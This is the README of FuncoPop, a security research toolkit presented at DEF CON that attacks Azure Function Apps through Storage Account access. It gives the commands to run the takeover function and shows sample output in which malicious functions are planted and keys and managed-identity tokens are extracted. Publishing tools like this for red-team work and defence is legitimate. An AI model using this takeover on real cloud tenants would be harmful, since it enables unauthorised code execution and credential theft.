 ![FuncoPopLogo](https://notpayloads.blob.core.windows.net/images/FuncoPop-bg-final.png)
<br> 
[![licence badge]][licence] 
[![stars badge]][stars] 
[![forks badge]][forks] 
[![issues badge]][issues]

![Twitter Follow](https://img.shields.io/twitter/follow/kfosaaen.svg?style=social)
![Twitter Follow](https://img.shields.io/twitter/follow/thomas_elling.svg?style=social)

[licence badge]:https://img.shields.io/badge/license-New%20BSD-blue.svg
[stars badge]:https://img.shields.io/github/stars/NetSPI/FuncoPop.svg
[forks badge]:https://img.shields.io/github/forks/NetSPI/FuncoPop.svg
[issues badge]:https://img.shields.io/github/issues/NetSPI/FuncoPop.svg


[licence]:https://github.com/NetSPI/FuncoPop/blob/master/LICENSE.txt
[stars]:https://github.com/NetSPI/FuncoPop/stargazers
[forks]:https://github.com/NetSPI/FuncoPop/network
[issues]:https://github.com/NetSPI/FuncoPop/issues


### FuncoPop: PowerShell Tools for Attacking Azure Function Apps

FuncoPop includes functions and scripts that support attacking Azure Funtion Apps, primarily through exploiting Storage Account Access. In many environments, users are granted generous Storage Account permissions (Storage Account Contributor) in Azure RBAC, resulting in access to Storage Accounts that support Function Apps. This unintended cross-service access can give an attacker the ability to pivot through Storage Accounts to gain access to Function Apps. This access includes visibility into the Funtion App keys, ability to run code in the Function App containers, and the ability to access Managed Identities attached to the Function Apps.

These tools were initially released as part of the "What the Function: A Deep Dive into Azure Function App Security" talk from the DEF CON 31 Cloud Village.

### Author, Contributors, and License
* Author:
	* Thomas Elling ([@thomaselling](https://twitter.com/thomas_elling)), NetSPI
	* Karl Fosaaen ([@kfosaaen](https://twitter.com/kfosaaen)), NetSPI
* License: BSD 3-Clause
* Required Dependencies: Az PowerShell Module

### Tool Usage
There are two parts to this tool - Extraction and Decryption

## Key Extraction
In order to run the key extraction tool, you will need to have an authenticated Azure (Az) PowerShell login with some role that allows Read/Write access to a vulnerable Function App Storage Account. In Powershell, you will need to import the function in order to run it.

**Importing the function:**
	`Import-Module .\Invoke-AzFunctionAppTakeover.ps1`

Once imported, you can run the function:
  `Invoke-AzFunctionAppTakeover -Verbose`

```
VERBOSE: Currently logged in via Az PowerShell as kfosaaen@notatenant.com
VERBOSE: Use Connect-AzAccount to change your user
VERBOSE: Dumping Function App information for Selected Subscriptions...
VERBOSE:    Enumerating Function App attached Storage Accounts in the TestEnvironment subscription
VERBOSE:            Function App Storage Account Found - POCstorageAccount1 - mystarterapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount2 - importantbankingapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount2 - lessimportantbankingapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount3 - managedidentityfunction Function App
[Truncated]
VERBOSE:    15 Function App Storage Accounts Enumerated in the Subscription
VERBOSE:    Dumping Function App information for selected Storage Accounts
VERBOSE:            Determining Function App Language of the managedidentityfunction function in the POCstorageAccount3 Storage Account
VERBOSE:                    Reviewing the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET folder found in the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET file found in the site/wwwroot/HttpTrigger1 folder in the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET file found in the site/wwwroot/HttpTrigger2 folder in the managedidentityfunctiona16a File Share
VERBOSE:                            Attempting to add a new ASP.NET function to the managedidentityfunctiona16a File Share in the POCstorageAccount3 Storage Account
VERBOSE:                                    Creating the MFRgBWvsDIlkyfT folder in the managedidentityfunctiona16a File Share in the POCstorageAccount3 Storage Account and uploading files
VERBOSE:                                    Sleeping for 60 seconds before calling the new function
VERBOSE:                                    Calling the new function (until it stops 404-ing) to return the tokens and decryption key, this may take a while...
VERBOSE:                                            Avoid hitting ctrl+C to break out of this, you will need to manually remove the added Storage Account files in order to clean up
VERBOSE:                                    Removing the files from the Storage Account
VERBOSE:            Completed attacking the managedidentityfunction Function App in the managedidentityfunctiona16a File Share

FunctionApp        : managedidentityfunction
EncryptedMasterKey : bm9[Truncated]=
EncryptionKey      : 1B1[Truncated]9
ManagementToken    : eyJ[Truncated]g
VaultToken         : eyJ[Truncated]g
GraphToken         : eyJ[Truncated]Q

VERBOSE: All Function App / Storage Account attacks have completed
```

The function will prompt you to select a Subscription to attack. Once it has enumerated vulnerable Storage Accounts, you will be prompted with a list of accounts to attack. Select the ones you want to attack and the function will add malicious functions to the Storage Accounts, and attempt to execute them. These malicious functions will return the decryption key for the Function App Master Key, along with Managed Identity tokens (*if available).

Please note that the function supports PowerShell, ASP.NET, Python, and Node for payloads. At this time, attacking Java Function Apps is not supported, but may be added in the future.

Required Module to install:
* <a href="https://docs.microsoft.com/en-us/powershell/azure/new-azureps-module-az?view=azps-3.6.1">Az</a>

## Key Decryption
The easiest way to decrypt the keys returned from the PowerShell function is to run the Function App that we created to do the decryption.
### Host your own Function App to decrypt the keys
Use the following Deploy button to deploy a function app to your Azure subscription that can be used to decrypt the extracted keys.

[![Deploy to Azure](https://github.com/Azure-Samples/function-app-arm-templates/blob/main/images/deploytoazure.png?raw=true)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FNetSPI%2FFuncoPop%2Fmain%2Fazuredeploy.json)

![image](https://github.com/NetSPI/FuncoPop/assets/2163397/64504f17-d872-4094-9106-5f2fe4be03b7)




### Related Blogs
* <a href="https://blog.netspi.com/lateral-movement-azure-app-services/">Lateral Movement in Azure App Services</a>

### Presentations
* <a href="https://github.com/NetSPI/FuncoPop">What the Function: A Deep Dive into Azure Function App Security - DEF CON 31 - Cloud Village</a>
  - <a href="https://github.com/NetSPI/FuncoPop/blob/main/WhatTheFunction-DC31_CV.pdf">Slides</a>

### Previous Research
* <a href="https://rogierdijkman.medium.com/privilege-escalation-via-storage-accounts-bca24373cc2e">Rogier Dijkman - Privilege Escalation via storage accounts</a>
* <a href="https://orca.security/resources/blog/azure-shared-key-authorization-exploitation/">Roi Nisimi - From listKeys to Glory: How We Achieved a Subscription Privilege Escalation and RCE by Abusing Azure Storage Account Keys</a>
* <a href="https://msrc.microsoft.com/blog/2023/04/best-practices-regarding-azure-storage-keys-azure-functions-and-azure-role-based-access/">MSRC - Best practices regarding Azure Storage Keys, Azure Functions, and Azure Role Based Access</a>
* <a href="https://medium.com/xm-cyber/10-ways-of-gaining-control-over-azure-function-apps-7e7b84367ce6">Bill Ben Haim & Zur Ulianitzky - 10 ways of gaining control over Azure function Apps</a>
* <a href="https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95">Andy Robbins – Abusing Azure App Service Managed Identity Assignments</a>


	
